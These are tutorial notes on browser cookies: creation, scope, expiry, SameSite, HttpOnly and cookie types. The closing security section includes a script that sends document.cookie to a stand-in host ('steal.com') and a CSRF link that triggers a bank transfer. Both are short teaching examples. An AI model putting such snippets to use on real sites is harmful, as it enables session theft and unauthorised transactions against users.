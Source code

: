# Cookies

## Creating cookies

1. client side

```js
document.cookie = 'hello=1';
```

2. server side

```js
const express = require('express')();
express.get('/', (req, res) => {
  res.header('Set-cookie', 'server=XXX');
  res.sendFile(`${__dirname}/index.html`);
});

express.listen(3000, () => {
  console.log('3000:', 3000);
});
```


## Cookie Properties

- Send with every request

- Scope
  - Domain
  - Path

```js
// example.com
document.cookie='haha=1'
document.cookie='allhaha=2; domain=.example.com'
// document.cookie => haha=1; allhaha=2
```

```js
// www.example.com
document.cookie='wwwhaha=3'
// document.cookie => wwwhaha=3; allhaha=2
```

```js
// localhost:3333/path1
document.cookie='path1=1'
// document.cookie => path1=1
```

```js
// localhost:3333/path2
document.cookie='path2=2'
// document.cookie => path2=2
```


- Expires, Max-age


```js
document.cookie='id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT' // => passed time will delete cookie
document.cookie='temcookie=ho; max-age=10'
```

- Same site

```js
//const cookie = "user=keidarcy; samesite=strict; secure"; // only same domain allowed send cookie
const cookie = "user=keidarcy; samesite=lax; secure"; // top level navigation allowed
//const cookie = "user=keidarcy; samesite=none; secure"; // other domain allowed
//const cookie = "user=keidarcy;"; => before chrome80 samesite=none; secure
//const cookie = "user=keidarcy;"; => after chrome80 samesite=lax; secure

res.setHeader("set-cookie", [cookie])
res.send("ok")
```


## Cookie Types

- Session cookie(delete by browser when session ends)

- Permanent cookie(live even close browser)

- HttpOnly cookie
```js
res.header('set-cookie', ['jscannotseethis=456; httponly']);
// document.cookie can not access this cookie
```

- Secure cookie(only send with https protocol)

- Third party cookie(some other origin set cookie)

- Zombie cookie(be deleted but recreate by etags, ip, indexeddb etc...)


## Cookie security

- Stealing cookies

```html
<a id='steal'>steal</a>
<script>
  document.getElementById('steal').href = `https://steal.com?cookie=${document.cookie}`;
</script>
```

- Cross site request forgery(csrf)

```html
<a href='https://goodbank.com?toaccountId=123&money=1999'>hello</a>
<!-- if you have cookie for this domain :) -->
```